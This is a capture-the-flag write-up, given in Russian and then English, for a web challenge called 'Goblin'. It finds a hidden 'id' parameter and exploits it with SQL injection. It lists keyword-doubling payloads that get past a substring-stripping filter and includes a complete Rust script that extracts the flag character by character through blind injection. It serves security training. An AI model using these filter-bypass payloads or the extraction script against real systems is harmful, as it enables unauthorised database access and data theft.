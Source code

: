 # Goblin

> Да кому нужны эти рекурсии, хах? *(Я так и не понял про что это)*

Страница встречает нас следующим текстом *(текст воссоздан по памяти)*:

```html
There is a hidden parameter somewhere...
```

Используя [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
найдем этот параметр:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

Если его приписать в конец ссылки `?id`, то страница пишет, что пользователь не найден, а если дать
ему некоторое цифровое значение, то оно выводит профиль какого-то пользователя.

Дальше проверяем параметр на SQL Injection: приписываем `'`. MySQL сервера начинает ругаться на это,
а значит можно воспользоваться всем арсеналом этой атаки.

В ходе проверки некоторыми запросами, оказалось, что сервер имеет какую-то защиту в виде удаления
не понравившихся ей подстрок. Воспользуясь [подсказками от PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters),
получим следующие (или подобные) замены:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

После удаления подстрок в строках справа, они будут преобразованы в нужные нам строки слева.

Например, для следующего запроса который мы будем использовать (между `1'...#`), соответствует
следующая замена:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

Данный запрос отвечает, что пользователь не найден, если нет данных соответствующих `LIKE`.

С помощью ручного подбора через `information_schema.tables where table_name like '%flag%'` и
`information_schema.columns where table_name='flag' and column_name like '%flag%'` найдем таблицу
`flag` и столбец `flag`.

Дальше подбор вручную немножко нецелесообразен, так что напишем небольшую программку. Ниже приведен
код на Rust с использованием `regex` и `reqwest` (под `tokio`).

> [!NOTE]
> Поле `flag.flag` не имеет чувствительности к регистру. Флаг, надеюсь, тоже.

> [!WARNING]
> Перебор будет искать ключевые слова (например, `grodno{andandand...`), если делать замены до
> подстановки текущего варианта. Причиной этого является замена сервером строки на `grodno{`,
> которая является правильной под фильтром `LIKE`.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Флаг:

```plain
grodno{3asy_sq1i_h3h3}
```

---

> Who needs these recursions, huh? *(I still don't get what this is about)*
*(EN version uses "huh" as opposed to "haha")*

The page greets us with the following text *(text recreated by memory)*:

```html
There is a hidden parameter somewhere...
```

Using [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
it can be found:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

If `?id` is appended to the link, the page states that some user was not found, and if you give it
some number value, it outputs a profile of a matching user.

Next we check the parameter for SQL Injection: appending `'`. MySQL server starts complaining about
this, thus we can use the entirety of the attack's arsenal.

While trying some queries, it turns out, that the server has some kind of protection in the form of
deleting some substrings it does not like. Using [PortSwigger's hints](https://portswigger.net/web-security/sql-injection/bypass/1),
we get the following replacements:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

After deleting the substrings in the strings at the right hand side, we will have the wanted strings
at the left hand side.

For example, for the following query which we will be using (between `1'...#`), we will have the
following replacement:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

This query responds that user does not exist if there are no matches for the `LIKE` filter.

With a manual brute-force via `information_schema.tables where table_name like '%flag%'` and
`information_schema.columns where table_name='flag' and column_name like '%flag%'`, we find the
table `flag` and the column `flag`.

Next manual approach is a bit unwieldy, and it would make more sense to write a small program. Below
you can see Rust code that uses `regex` and `reqwest` (under `tokio`).

> [!NOTE]
> Field `flag.flag` is case-insensitive. Flag, I hope, too.

> [!WARNING]
> Brute-force will look for keywords (e.g. `grodno{andandand...`), if you perform replacements
> before substituting the current variant. This is because server will replace it by `grodno{`,
> which is valid under the `LIKE` filter.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Flag:

```plain
grodno{3asy_sq1i_h3h3}
```
